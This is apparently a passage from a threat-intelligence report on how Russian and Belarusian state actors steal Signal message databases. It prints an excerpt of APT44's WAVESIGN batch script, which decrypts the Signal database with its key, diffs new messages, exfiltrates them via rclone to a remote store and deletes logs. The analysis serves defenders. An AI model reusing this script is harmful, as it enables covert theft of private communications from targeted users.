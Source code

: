 Wider Russian and Belarusian Efforts to Steal Messages From Signal
------------------------------------------------------------------

Beyond targeted efforts to link additional actor-controlled devices to victim Signal accounts, multiple known and established regional threat actors have also been observed operating capabilities designed to steal Signal database files from Android and Windows devices.

-   APT44 has been observed operating WAVESIGN, a lightweight Windows Batch script, to periodically query Signal messages from a victim's Signal database and exfiltrate those most recent messages using Rclone (Figure 7).
    
-   As reported in 2023 by the [Security Service of Ukraine](https://ssu.gov.ua/en/novyny/sbu-exposes-russian-intelligence-attempts-to-penetrate-armed-forces-planning-operations-system) (SSU) and the UK's [National Cyber Security Centre](https://www.ncsc.gov.uk/static-assets/documents/malware-analysis-reports/infamous-chisel/NCSC-MAR-Infamous-Chisel.pdf) (NCSC), the Android malware tracked as Infamous Chisel and attributed by the respective organizations to Sandworm, is designed to recursively search for a list of file extensions including the local database for a series of messaging applications, including Signal, on Android devices.
    
-   Turla, a Russian threat actor attributed by the [United States](https://www.justice.gov/opa/pr/justice-department-announces-court-authorized-disruption-snake-malware-network-controlled) and [United Kingdom](https://www.gov.uk/government/publications/russias-fsb-malign-cyber-activity-factsheet/russias-fsb-malign-activity-factsheet) to Center 16 of the Federal Security Service (FSB) of the Russian Federation, has also operated a lightweight PowerShell script in post-compromise contexts to stage Signal Desktop messages for exfiltration (Figure 8).
    
-   Extending beyond Russia, Belarus-linked UNC1151 has used the command-line utility Robocopy to stage the contents of file directories used by Signal Desktop to store messages and attachments for later exfiltration (Figure 9).
    

```
if %proflag%==1 (
    C:\ProgramData\Signal\Storage\sqlcipher.exe %new% "PRAGMA key=""x'%key%'"";" ".recover" > NUL
    copy /y %new% C:\ProgramData\Signal\Storage\Signal\sqlorig\db.sqlite
    C:\ProgramData\Signal\Storage\rc.exe copy -P -I --log-file=C:\ProgramData\Signal\Storage\rclog.txt --log-level INFO C:\ProgramData\Signal\Storage\Signal\sqlorig si:SignalFresh/sqlorig
    del C:\ProgramData\Signal\Storage\Signal\log*
    rmdir /s /q C:\ProgramData\Signal\Storage\sql
    move C:\ProgramData\Signal\Storage\Signal\sql C:\ProgramData\Signal\Storage\sql
) ELSE (

    C:\ProgramData\Signal\Storage\sqlcipher.exe %old% "PRAGMA key=""x'%key%'"";" ".recover" > NUL
    C:\ProgramData\Signal\Storage\sqlcipher.exe %old% "PRAGMA key=""x'%key%'"";select count(*) from sqlite_master;ATTACH DATABASE '%old_dec%' AS plaintext KEY '';SELECT sqlcipher_export('plaintext');DETACH DATABASE plaintext;"
    C:\ProgramData\Signal\Storage\sqlcipher.exe %new% "PRAGMA key=""x'%key%'"";" ".recover" > NUL
    C:\ProgramData\Signal\Storage\sqlcipher.exe %new% "PRAGMA key=""x'%key%'"";select count(*) from sqlite_master;ATTACH DATABASE '%new_dec%' AS plaintext KEY '';SELECT sqlcipher_export('plaintext');DETACH DATABASE plaintext;"
    C:\ProgramData\Signal\Storage\sqldiff.exe --primarykey --vtab %old_dec% %new_dec% > %diff_name%
    del /s %old_dec% %new_dec%

    rmdir /s /q C:\ProgramData\Signal\Storage\sql
    move C:\ProgramData\Signal\Storage\Signal\sql C:\ProgramData\Signal\Storage\sql

    powershell -Command "move C:\ProgramData\Signal\Storage\log.tmp C:\ProgramData\Signal\Storage\Signal\log$(Get-Date -f """ddMMyyyyHHmmss""").tmp"
)
```
